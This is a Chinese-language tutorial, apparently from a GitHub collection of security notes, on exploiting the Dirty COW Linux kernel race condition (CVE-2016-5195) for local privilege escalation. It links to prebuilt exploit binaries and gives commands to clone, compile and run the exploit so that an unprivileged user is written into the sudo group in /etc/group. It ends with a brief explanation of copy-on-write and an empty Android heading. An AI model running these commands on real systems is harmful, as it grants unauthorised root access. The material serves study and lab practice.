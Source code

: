 # （CVE-2016-5195）脏牛Linux 本地提权.md

编译好的EXP下载地址： https://github.com/Brucetg/DirtyCow-EXP

该漏洞是 Linux 内核的内存子系统在处理写时拷贝（Copy-on-Write）时存在条件竞争漏洞， 导致可以破坏私有只读内存映射。黑客可以在获取低权限的的本地用户后，利用此漏洞获取 其他只读内存映射的写权限，进一步获取 root 权限。

## 1.Linux

**Ubuntu 14.04 :**

1）添加用户：

```
sudo adduser test 
```

输入两次密码后一直回车就行，查看当前用户的信息，终端输入 id，回车，可以看到当 前用户是有 sudo 权限的。

切换到刚刚新建的 test 用户，同样输入 id，查看 test 用户的信息，发现 test 用户没有 sudo 权限，

![img](resource/%EF%BC%88CVE-2016-5195%EF%BC%89%E8%84%8F%E7%89%9BLinux%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83/media/ChB3md.png)

2）运行DirtyCow的exp进行提权：

```
git clone https://github.com/dirtycow/dirtycow.github.io

cd dirtycow.github.io
```

编译exp：

```
gcc dirtyc0w.c -o dirtycow lpthread
```

执行exp：

```
./dirtycow /etc/group “$(sed ‘/\(sudo*\)/ s/$/,test/’ /etc/group)”
```

![img](resource/%EF%BC%88CVE-2016-5195%EF%BC%89%E8%84%8F%E7%89%9BLinux%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83/media/ChBGTI.png)

新打开一个终端，切换到test，查看test用户信息，可以看到test用户已经拥有了sudo权限，执行sudo su ，输入test用户的密码后就可以切换到root权限，提权成功。

![img](resource/%EF%BC%88CVE-2016-5195%EF%BC%89%E8%84%8F%E7%89%9BLinux%20%E6%9C%AC%E5%9C%B0%E6%8F%90%E6%9D%83/media/ChB6kq.png)

**漏洞成因：**

Linux写时拷贝技术（copy-on-write）

在Linux系统中，fork()会产生一个和父进程完全相同的子进程，但子进程在此后多会exec系统调用，出于效率考虑，Linux系统中引入了“写时复制”技术，也就是只有进程空间的各段的内容要发生变化时，才会将父进程的内容复制一份给子进程。

## 2.Android：
